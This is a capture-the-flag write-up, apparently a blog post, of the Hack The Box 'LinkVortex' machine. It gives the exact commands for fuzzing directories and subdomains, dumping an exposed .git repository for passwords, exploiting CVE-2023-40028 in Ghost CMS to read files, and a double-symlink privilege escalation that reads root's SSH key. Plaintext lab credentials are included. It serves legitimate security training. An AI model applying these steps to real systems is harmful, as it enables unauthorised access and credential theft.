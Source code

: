 ```yaml
---
date: 2025-04-11T22:37:01-05:00
# description: ""
image: "/images/HTB-LinkVortex/LinkVortex"
showTableOfContents: true
tags: ["HackTheBox"]
categories: ["Writeups"]
title: "HTB: LinkVortex"
type: "post"
---
```


* Platform: Hack The Box
* Link: [LinkVortex](https://app.hackthebox.com/machines/LinkVortex)
* Level: Easy
* OS: Linux
---

LinkVortex runs a vulnerable version of Ghost CMS. Through directory brute-forcing and subdomain enumeration, we discover the admin login page and an exposed `.git` directory, which contains valid credentials for authentication. We then leverage `CVE-2023-40028`, a file read vulnerability, to read sensitive files on the server, eventually finding another set of credentials. These allow us to gain an initial foothold via SSH. Privilege escalation is achieved by exploiting a script executable as root.

## Scanning

```
nmap -sC -sV {TARGET_IP}
```

**Results**

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-11 09:42 CST
Nmap scan report for 10.129.231.194
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:f8:b9:68:c8:eb:57:0f:cb:0b:47:b9:86:50:83:eb (ECDSA)
|_  256 a2:ea:6e:e1:b6:d7:e7:c5:86:69:ce:ba:05:9e:38:13 (ED25519)

80/tcp open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Did not follow redirect to http://linkvortex.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.71 seconds
```

Two open ports are found: `22` running SSH and `80` running http. Additionally there is a redirection to `linkvortex.htb`.

```
sudo echo "{TARGET_IP} linkvortex.htb" | sudo tee -a /etc/hosts
```

## Enumeration

At `http://linkvortex.htb/` we find a static website powered by [Ghost CMS](https://ghost.org/). Wappalyzer tells us that `version 5.58` is used. 

![LinkVortex website](/images/HTB-LinkVortex/linkvortex_website.png)

With directory brute forcing we find `/ghost`.

```
feroxbuster -u http://linkvortex.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -t 200 -r --scan-dir-listings -C 403,404
```

![ghost hidden directory](/images/HTB-LinkVortex/ghost_directory.png)

Visiting `http://linkvortex.htb/ghost/` we get to an Admin login page.

![ghost admin page](/images/HTB-LinkVortex/ghost_admin_page.png)

With some subdomain enumeration we discover the `dev` subdomain.

```
ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --fc 404 -t 100 -u http://linkvortex.htb -H "Host: FUZZ.linkvortex.htb" -ic -fs 230
```

![dev subdomain found](/images/HTB-LinkVortex/subdomain_dev.png)

`http://dev.linkvortex.htb/` leads to another website which is under construction.

![website at dev subdomain](/images/HTB-LinkVortex/dev_subdomain_website.png)

We go back to directory bruteforcing for the subdomain and find a `.git` directory.

```
ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -u http://dev.linkvortex.htb/FUZZ -ic --fc 404,403
```

![git hidden folder](/images/HTB-LinkVortex/subdomain_git.png)

When visiting `http://dev.linkvortex.htb/.git` we find some files for a git repository.

![git files](/images/HTB-LinkVortex/linkvortex_git_files.png)

We dump the repository available at `http://dev.linkvortex.htb/.git` with [git-dumper](https://github.com/arthaud/git-dumper).

```
git-dumper http://dev.linkvortex.htb/.git git_linkvortex
```

![git dumper command](/images/HTB-LinkVortex/git_dumper_linkvortex.png)

Inside the directory we look for credentials, using `grep -iR "password"`. A few possible password are discovered.

![passwords found in project files](/images/HTB-LinkVortex/passwords_found.png)

We are able to login at `http://linkvortex.htb/ghost` with `admin@linkvortex.htb:OctopiFociPilfer45` and get access to the Ghost dashboard.

![Ghost Dashboard](/images/HTB-LinkVortex/ghost_dashboard.png)

## Intial Foothold

Now that we have some valid credentials we can use [this PoC](https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028) for `CVE-2023-40028` to read files on the target system.

![CVE-2023-40028](/images/HTB-LinkVortex/CVE-2023-40028.png)

Among the repository files there is one called `Dockerfile.ghost`, checking its content we find a configuration file at `/var/lib/ghost/config.production.json`.

Using our file read vulnerability we read `/var/lib/ghost/config.production.json` and find the credentials for another user.

![Dockerfile config](/images/HTB-LinkVortex/creds_docker_config.png)

```
bob@linkvortex.htb:fibber-talented-worth
```

We login via SSH as `bob` and can read the user flag.

![user flag](/images/HTB-LinkVortex/user_flag.png)

## Privilege Escalation

We check the sudo privileges of the user and find out that he can run `/usr/bin/bash /opt/ghost/clean_symlink.sh *.png` as any user, without providing a password.

![sudo privileges for bob](/images/HTB-LinkVortex/sudo_privs_linkvortex.png)

The content of `/opt/ghost/clean_symlink.sh` is as below

```bash
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```

The `clean_symlink.sh` script is designed to handle symbolic links targeting `.png` files. It checks whether the provided file is a symlink and, if so, determines its target path. If the symlink points to a sensitive directory such as `/etc` or `/root`, the script deletes it. Otherwise, it moves the symlink to a quarantine directory (`/var/quarantined/`). Additionally, when the environment variable `CHECK_CONTENT=true` is set, the script attempts to read and display the contents of the file (or the file the symlink points to).

We can try to exploit the script with a symlink pointing to the root SSH key.

```
touch id_rsa.png
ln -sf /root/.ssh/id_rsa id_rsa.png
sudo /usr/bin/bash /opt/ghost/clean_symlink.sh id_rsa.png
```

As expected it gets removed.

![Symlink exploit failure](/images/HTB-LinkVortex/symlink_exploit_fail.png)

Let's try another method. This time we will use two symlinks in order to bypass the security feature of the script.

```
cd ~
ln -s /root/.ssh/id_rsa id_rsa.txt
ln -s /home/bob/id_rsa.txt root.png
sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/root.png
```

![root privilege escalation](/images/HTB-LinkVortex/root_exploitation.png)

We successfully exploit the script and obtain the root SSH key. We save the recovered SSH private key and use it to authenticate as the root user.

![root flag](/images/HTB-LinkVortex/root_flag.png)

### Exploit Explanation

The script detects `root.png` as a valid file matching the `*.png` pattern and proceeds to process it. However, `root.png` is actually a symlink to `id_rsa.txt`, which is itself a symlink to `/root/.ssh/id_rsa`.

Since `CHECK_CONTENT=true`, the script displays the content of the file our symlink points to. Because the script runs with root privileges, it successfully follows both symlinks and ends up reading the contents of `/root/.ssh/id_rsa`.











